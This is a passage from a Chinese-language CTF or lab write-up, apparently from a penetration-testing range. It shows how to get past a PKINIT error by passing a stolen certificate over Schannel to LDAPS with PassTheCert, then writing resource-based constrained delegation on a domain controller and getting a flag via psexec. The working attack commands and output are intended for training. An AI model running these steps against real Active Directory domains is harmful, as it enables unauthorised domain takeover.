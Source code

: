 报错 `KDC_ERR_PADATA_TYPE_NOSUPP`

参考:

[https://whoamianony.top/posts/pass-the-certificate-when-pkinit-is-nosupp/](https://whoamianony.top/posts/pass-the-certificate-when-pkinit-is-nosupp/)

[https://github.com/AlmondOffSec/PassTheCert](https://github.com/AlmondOffSec/PassTheCert)

大致就是 AD 默认支持两种协议的证书身份验证: Kerberos PKINIT 协议和 Schannel

然后这里的报错估计是 `域控制器没有安装用于智能卡身份验证的证书` ? 所以可以尝试 Schannel

即通过 Schannel 将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限

whoami

```shell
$ proxychains python3 passthecert.py -action whoami -crt user.crt -key user.key -domain xiaorang.lab -dc-ip 172.22.15.13
Impacket v0.12.0.dev1+20230803.144057.e2092339 - Copyright 2023 Fortra

[*] You are logged in as: XIAORANG\XR-DC01$
```

利用上面生成的 pfx 证书配置到域控的 RBCD, 注意先得把 pfx 导出为 .key 和 .crt 两个文件

```shell
$ proxychains python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'TEST$'
Impacket v0.12.0.dev1+20230803.144057.e2092339 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] TEST$ can now impersonate users on XR-DC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     TEST$        (S-1-5-21-3745972894-1678056601-2622918667-1147)
```

最后申请 ST, psexec 连接拿到 flag04

![image-20230819161008758](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191610800.png)